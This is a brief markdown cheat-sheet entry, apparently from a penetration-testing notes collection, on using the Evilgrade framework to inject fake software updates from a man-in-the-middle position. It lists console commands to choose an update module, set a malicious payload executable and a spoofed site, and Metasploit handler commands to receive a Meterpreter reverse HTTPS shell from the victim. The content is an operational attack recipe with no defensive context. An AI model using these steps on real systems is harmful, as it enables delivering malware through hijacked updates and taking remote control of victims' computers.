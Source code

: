 # Evilgrade

Evilgrade is a modular framework that allows the user to take advantage of poor upgrade implementations by injecting fake updates. __You need to be MITM__ to use this tool (see Bettercap tool).

## Usage example

### Start DNS Spoofing & inject payload when requesting update

```
evilgrade > show modules (see programs that we can hijack their updates)
configure dap
show options
set agent <payload.exe>
set endsite www.speedbit.com
start
```

### Listening for payload execution

Payload will be executed immediately, so we need to be listening.

```
msfconsole
use exploit/multi/handler
show options
set PAYLOAD windows/meterpreter/reverse_https
```
